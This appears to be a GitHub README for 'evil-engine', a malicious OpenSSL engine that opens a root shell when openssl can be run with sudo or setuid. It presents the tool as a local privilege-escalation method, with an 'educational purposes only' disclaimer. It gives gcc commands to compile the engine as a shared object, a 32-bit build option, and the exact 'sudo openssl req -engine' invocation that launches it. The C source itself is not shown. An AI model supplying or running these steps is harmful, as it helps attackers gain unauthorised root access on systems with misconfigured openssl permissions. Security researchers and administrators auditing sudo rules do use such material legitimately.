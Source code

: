 # evil-engine
Evil openSSL engine that drops a root shell when openssl can either be executed with sudo or is saved with setuid.
Can be used for local privilege escalation 

In some rare cases, administrators allow a local user to run openssl with root level privileges, this engine allows you get a root shell.

***For educational purposes only***


## Dependencies
- openssl header files

**Note**
There could be some version dependencies so make sure you use the same openssl version (engine.h).  
Also make sure to compile for 32 or 64 bit, depending on the openssl version running on the remote system.

To configure openssl for 32 bit on a 64 bit system use:
```
setarch i386 ./config -m32
```

Then use gcc -m32 to compile this evil-engine

## Create the engine

```
# Compile: 
gcc -fPIC -o evil-engine.o -c evil-engine.c
# Create shared object file:
gcc -shared -o evil-engine.so -lcrypto evil-engine.o
```
## Use with openssl
```
sudo openssl req -engine $(pwd)/evil-engine.so
```
